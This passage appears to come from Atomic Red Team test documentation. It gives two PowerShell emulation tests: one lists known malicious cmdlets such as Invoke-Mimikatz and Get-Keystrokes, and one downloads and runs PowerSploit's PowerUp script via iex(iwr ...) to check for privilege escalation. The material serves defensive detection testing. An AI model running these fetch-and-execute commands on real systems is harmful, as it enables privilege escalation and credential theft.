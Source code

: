 




<br/>
<br/>

## Atomic Test #20 - PowerShell Invoke Known Malicious Cmdlets
Powershell execution of known Malicious PowerShell Cmdlets

**Supported Platforms:** Windows


**auto_generated_guid:** 49eb9404-5e0f-4031-a179-b40f7be385e3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Malicious_cmdlets | Known Malicious Cmdlets | String | "Add-Persistence", "Find-AVSignature", "Get-GPPAutologon", "Get-GPPPassword", "Get-HttpStatus", "Get-Keystrokes", "Get-SecurityPackages", "Get-TimedScreenshot", "Get-VaultCredential", "Get-VolumeShadowCopy", "Install-SSP", "Invoke-CredentialInjection", "Invoke-DllInjection", "Invoke-Mimikatz", "Invoke-NinjaCopy", "Invoke-Portscan", "Invoke-ReflectivePEInjection", "Invoke-ReverseDnsLookup", "Invoke-Shellcode", "Invoke-TokenManipulation", "Invoke-WmiCommand", "Mount-VolumeShadowCopy", "New-ElevatedPersistenceOption", "New-UserPersistenceOption", "New-VolumeShadowCopy", "Out-CompressedDll", "Out-EncodedCommand", "Out-EncryptedScript", "Out-Minidump", "PowerUp", "PowerView", "Remove-Comments", "Remove-VolumeShadowCopy", "Set-CriticalProcess", "Set-MasterBootRecord"|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$malcmdlets = #{Malicious_cmdlets}
foreach ($cmdlets in $malcmdlets) {
    "function $cmdlets { Write-Host Pretending to invoke $cmdlets }"}
foreach ($cmdlets in $malcmdlets) {
    $cmdlets}
```






<br/>
<br/>

## Atomic Test #21 - PowerUp Invoke-AllChecks
Check for privilege escalation paths using PowerUp from PowerShellMafia

**Supported Platforms:** Windows


**auto_generated_guid:** 1289f78d-22d2-4590-ac76-166737e1811b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/d943001a7defb5e0d1657085a77a0e78609be58f/Privesc/PowerUp.ps1 -UseBasicParsing)
Invoke-AllChecks
```
